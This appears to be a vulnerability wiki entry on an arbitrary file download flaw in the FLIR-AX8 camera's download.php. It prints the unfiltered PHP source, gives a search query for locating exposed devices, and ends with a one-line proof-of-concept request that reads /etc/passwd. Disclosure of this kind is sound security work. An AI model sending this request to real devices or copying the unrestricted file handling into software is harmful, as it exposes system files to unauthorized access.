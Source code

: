 # FLIR-AX8 download.php any file download

## Vulnerability Description

FLIR-AX8 download.php file is incomplete filtering, and there is a vulnerability to download any file

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">FLIR-AX8</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="FLIR-FLIR-AX8"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662985620542-08eeac2c-70ee-475d-979d-52f4c9ec3be4-20220912212120399.png)

The file with the vulnerability is **download.php**

```php
<?php
/**
 * Copyright 2012 Armand Niculescu - MediaDivision.com
 * Redistribution and use in source and binary forms, with or without modification, are permitted provided that the following conditions are met:
 * 1. Redistributions of source code must retain the above copyright notice, this list of conditions and the following disclaimer.
 * 2. Redistributions in binary form must reproduce the above copyright notice, this list of conditions and the following disclaimer in the documentation and/or other materials provided with the distribution.
 * THIS SOFTWARE IS PROVIDED BY THE FREEBSD PROJECT "AS IS" AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE FREEBSD PROJECT OR CONTRIBUTORS BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.
 */
// get the file request, throw error if nothing supplied

// hide notices
@ini_set('error_reporting', E_ALL & ~ E_NOTICE);

//- turn off compression on the server
//@apache_setenv('no-gzip', 1);
//@ini_set('zlib.output_compression', 'Off');

if(!isset($_REQUEST['file']) || empty($_REQUEST['file']))
{
	header("HTTP/1.0 400 Bad Request");
	exit;
}

// sanitize the file request, keep just the name and extension
// also, replaces the file location with a preset one ('./myfiles/' in this example)
$file_path  = $_REQUEST['file'];
$file_type = $_REQUEST['type'];
$path_parts = pathinfo($file_path);
$file_name  = $path_parts['basename'];
$file_ext   = $path_parts['extension'];

// allow a file to be streamed instead of sent as an attachment
$is_attachment = isset($_REQUEST['stream']) ? false : true;

// make sure the file exists
if (is_file($file_path))
{
	$file_size  = filesize($file_path);
	$file = @fopen($file_path,"rb");
	if ($file)
	{
		// set the headers, prevent caching
		header("Pragma: public");
		header("Expires: -1");
		header("Cache-Control: public, must-revalidate, post-check=0, pre-check=0");
		header("Content-Disposition: attachment; filename=\"$file_name\"");

        // set appropriate headers for attachment or streamed file
        if ($is_attachment) {
                header("Content-Disposition: attachment; filename=\"$file_name\"");
        }
        else {
                header('Content-Disposition: inline;');
                header('Content-Transfer-Encoding: binary');
        }

        // set the mime type based on extension, add yours if needed.
        $ctype_default = "application/octet-stream";
        $content_types = array(
                "exe" => "application/octet-stream",
                "zip" => "application/zip",
                "mp3" => "audio/mpeg",
                "mpg" => "video/mpeg",
                "avi" => "video/x-msvideo",
        );
        $ctype = isset($content_types[$file_ext]) ? $content_types[$file_ext] : $ctype_default;
        header("Content-Type: " . $ctype);

		//check if http_range is sent by browser (or download manager)
		if(isset($_SERVER['HTTP_RANGE']))
		{
			list($size_unit, $range_orig) = explode('=', $_SERVER['HTTP_RANGE'], 2);
			if ($size_unit == 'bytes')
			{
				//multiple ranges could be specified at the same time, but for simplicity only serve the first range
				//http://tools.ietf.org/id/draft-ietf-http-range-retrieval-00.txt
				list($range, $extra_ranges) = explode(',', $range_orig, 2);
			}
			else
			{
				$range = '';
				header('HTTP/1.1 416 Requested Range Not Satisfiable');
				exit;
			}
		}
		else
		{
			$range = '';
		}

		//figure out download piece from range (if set)
		list($seek_start, $seek_end) = explode('-', $range, 2);

		ob_clean();
		
		//set start and end based on range (if set), else set defaults
		//also check for invalid ranges.
		$seek_end   = (empty($seek_end)) ? ($file_size - 1) : min(abs(intval($seek_end)),($file_size - 1));
		$seek_start = (empty($seek_start) || $seek_end < abs(intval($seek_start))) ? 0 : max(abs(intval($seek_start)),0);
	 
		//Only send partial content header if downloading a piece of the file (IE workaround)
		if ($seek_start > 0 || $seek_end < ($file_size - 1))
		{
			header('HTTP/1.1 206 Partial Content');
			header('Content-Range: bytes '.$seek_start.'-'.$seek_end.'/'.$file_size);
			header('Content-Length: '.($seek_end - $seek_start + 1));
		}
		else
		  header("Content-Length: $file_size");

		header('Accept-Ranges: bytes');
    
		set_time_limit(0);
		fseek($file, $seek_start);
		
		while(!feof($file)) 
		{
			print(@fread($file, 1024*8));
			ob_flush();
			flush();
			if (connection_status()!=0) 
			{
				@fclose($file);
				exit;
			}			
		}
		
		// file save was a success
		@fclose($file);
		exit;
	}
	else 
	{
		// file couldn't be opened
		header("HTTP/1.0 500 Internal Server Error");
		exit;
	}
}
else
{
	// file does not exist
	header("HTTP/1.0 404 Not Found");
	exit;
}
?>
```

Verify POC

```plain
/download.php?file=/etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662985662585-c79e5e7d-48c8-4c62-8108-0a29c34c8cac.png)